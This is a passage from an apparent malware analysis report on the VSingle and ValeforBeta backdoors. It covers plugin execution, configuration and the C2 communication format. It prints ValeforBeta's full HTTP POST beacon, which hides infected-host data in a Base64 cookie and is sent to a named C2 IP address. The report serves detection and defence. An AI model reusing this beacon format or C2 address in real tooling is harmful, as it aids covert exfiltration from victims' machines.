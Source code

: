 
7
Uninstall


8
Download file



It executes the following 4 types of plugins:

Windows PE file (saved as a .tmp file)
VBS file (saved as a .vbs file)
BAT file (saved as a .bat file)
Shellcode

Figure 2 shows a part of the code to execute a plugin.
Figure 2: Part of VSingle code to execute a plugin
Plugins are temporarily saved in %TEMP% folder and then executed except for the shellcode ones; They are saved in %TEMP% folder but loaded and executed on memory. 
When the command number 6 (sending malware information) is selected, the data in Figure 3 is sent. As for the version number, 4.1.1, 3.0.1 and others have been confirmed in addition to 1.0.1. It is possible that this number indicates some sort of identifier, rather than its malware version.
Figure 3: Sample information send with command number 6
ValeforBeta overview
ValeforBeta is a HTTP bot developed in Delphi, and its functions are even simpler than those of VSingle. Besides arbitrary code execution from remote network, it just uploads and downloads files. 
The next sections describe ValeforBeta's configuration and communication format.
ValeforBeta configuration
Figure 4 shows the code to load the configuration. It contains sample ID ("512" in Figure 4), access type and intervals, as well as C2 server information.
Figure 4: ValeforBeta configuration
There are 3 different access types:

Connect directly (INTERNET_OPEN_TYPE_DIRECT)
Use default setting (INTERNET_OPEN_TYPE_PRECONFIG)
Connect via proxy (INTERNET_OPEN_TYPE_PROXY)

ValeforBeta communication with C2 servers
Below is the HTTP POST request that ValeforBeta sends to its C2 server at the beginning of the communication.

POST /doc/total.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=[Base64 data]
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; InfoPath.3)
Host: 3.90.97.16
Content-Length: 0
Proxy-Connection: Keep-Alive
Pragma: no-cache

Although it is a HTTP POST request, it does not contain any data to send. The Base64-encoded data after "JSESSIONID=" in the Cookie header contains the information of an infected host. Below is the format of Base64-encoded data.

